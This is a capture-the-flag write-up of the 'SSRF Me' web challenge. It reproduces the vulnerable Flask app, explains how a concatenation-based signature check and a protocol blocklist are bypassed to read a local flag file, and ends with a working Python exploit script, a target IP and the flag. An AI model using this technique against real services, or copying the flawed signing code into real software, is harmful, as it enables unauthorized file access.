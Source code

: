 # SSRF Me - Writeup

##### By _sh4d0w58_

### Description:

> SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```python3
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
	def __init__(self, action, param, sign, ip):
		self.action = action
		self.param = param
		self.sign = sign
		self.sandbox = md5(ip)
		if(not os.path.exists(self.sandbox)):
			#SandBox For Remote_Addr
			os.mkdir(self.sandbox)

	def Exec(self):
		result = {}
		result['code'] = 500
		if (self.checkSign()):
			if "scan" in self.action:
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
				resp = scan(self.param)
				if (resp == "Connection Timeout"):
					result['data'] = resp
				else:
					print resp
					tmpfile.write(resp)
					tmpfile.close()
					result['code'] = 200
			if "read" in self.action:
				f = open("./%s/result.txt" % self.sandbox, 'r')
				result['code'] = 200
				result['data'] = f.read()
			if result['code'] == 500:
				result['data'] = "Action Error"
		else:
			result['code'] = 500
			result['msg'] = "Sign Error"
		return result

	def checkSign(self):
		if (getSign(self.action, self.param) == self.sign):
			return True
		else:
			return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
	param = urllib.unquote(request.args.get("param", ""))
	action = "scan"
	return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
	action = urllib.unquote(request.cookies.get("action"))
	param = urllib.unquote(request.args.get("param", ""))
	sign = urllib.unquote(request.cookies.get("sign"))
	ip = request.remote_addr
	if(waf(param)):
		return "No Hacker!!!!"
	task = Task(action, param, sign, ip)
	return json.dumps(task.Exec())

@app.route('/')
def index():
	return open("code.txt","r").read()

def scan(param):
	socket.setdefaulttimeout(1)
	try:
		return urllib.urlopen(param).read()[:50]
	except:
		return "Connection Timeout"

def getSign(action, param):
	return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
	return hashlib.md5(content).hexdigest()

def waf(param):
	check=param.strip().lower()
	if check.startswith("gopher") or check.startswith("file"):
		return True
	else:
		return False

if __name__ == '__main__':
	app.debug = False
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```python3
task = Task(action, param, sign, ip)
return json.dumps(task.Exec())
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```python3
def checkSign(self):
		if (getSign(self.action, self.param) == self.sign):
			return True
		else:
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```python3
def getSign(action, param):
	return hashlib.md5(secert_key + param + action).hexdigest()
```

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```python3
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
	param = urllib.unquote(request.args.get("param", ""))
	action = "scan"
	return getSign(action, param)
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```python3
if "scan" in self.action:
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
	resp = scan(self.param)
	if (resp == "Connection Timeout"):
		result['data'] = resp
	else:
		print resp
		tmpfile.write(resp)
		tmpfile.close()
		result['code'] = 200
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```python3
if "read" in self.action:
	f = open("./%s/result.txt" % self.sandbox, 'r')
	result['code'] = 200
	result['data'] = f.read()
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```python3
def scan(param):
	socket.setdefaulttimeout(1)
	try:
		return urllib.urlopen(param).read()[:50]
	except:
		return "Connection Timeout"
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` without a protocol would attempt to read files from the file system. The challenge hint says...

> flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"flag.txtread"` (the value of `action` will be `"scan"`) and generate the _same_ hash as if we pass `param` as `"flag.txt"` and `action` as `"readscan"`.

```python3
"flag.txtread"+"scan" == "flag.txt"+"readscan"
```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```python3
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
